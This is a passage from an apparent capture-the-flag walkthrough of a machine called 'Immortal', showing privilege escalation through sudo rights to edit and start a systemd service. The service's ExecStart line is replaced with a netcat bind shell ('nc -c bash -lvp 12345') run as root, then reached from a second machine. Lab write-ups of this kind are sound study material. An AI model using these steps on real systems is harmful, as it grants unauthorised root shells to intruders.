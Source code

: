 {: .text-justify}
```bash
Do you want to be immortal: yes
Bad answer
eric@Immortal:/opt$
```
```bash
sudo -l
# Matching Defaults entries for eric on Immortal:
#     env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

# User eric may run the following commands on Immortal:
#     (root) NOPASSWD: sudoedit /etc/systemd/system/immortal.service
#     (root) NOPASSWD: /usr/bin/systemctl start immortal.service
#     (root) NOPASSWD: /usr/bin/systemctl stop immortal.service
#     (root) NOPASSWD: /usr/bin/systemctl enable immortal.service
#     (root) NOPASSWD: /usr/bin/systemctl disable immortal.service
#     (root) NOPASSWD: /usr/bin/systemctl daemon-reload
```
```bash
sudoedit /etc/systemd/system/immortal.service
```
Edit the line (ExecStart):
{: .text-justify}
```bash
[Unit]
Description=Immortal Service
After=network.target

[Service]
Type=oneshot
#ExecStart=/bin/bash -c 'echo "Every man dies. Not every man lives" > /opt/immortal.txt'
ExecStart=/bin/bash -c 'nc -c bash -lvp 12345'
[Install]
WantedBy=multi-user.target
```
Run as root:
{: .text-justify}
```bash
sudo /usr/bin/systemctl start immortal.service
```
## 03. User root
On second Machine run:
{: .text-justify}
```bash
nc $IP 12345
```
You got root.
{: .text-justify}